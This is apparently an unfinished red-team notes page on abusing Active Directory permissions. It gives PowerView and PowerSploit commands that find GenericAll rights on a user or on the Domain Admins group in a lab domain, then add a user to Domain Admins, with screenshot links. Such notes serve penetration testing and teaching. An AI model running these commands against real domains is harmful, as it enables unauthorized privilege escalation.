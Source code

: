 # Abusing Active Directory ACLs/ACEs

{% hint style="danger" %}
WIP
{% endhint %}

## Execution

### GenericAll on User

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-17-14.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-23-18.png)

### GenericAll on Group

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

## References

{% embed url="https://wald0.com/?p=112" %}

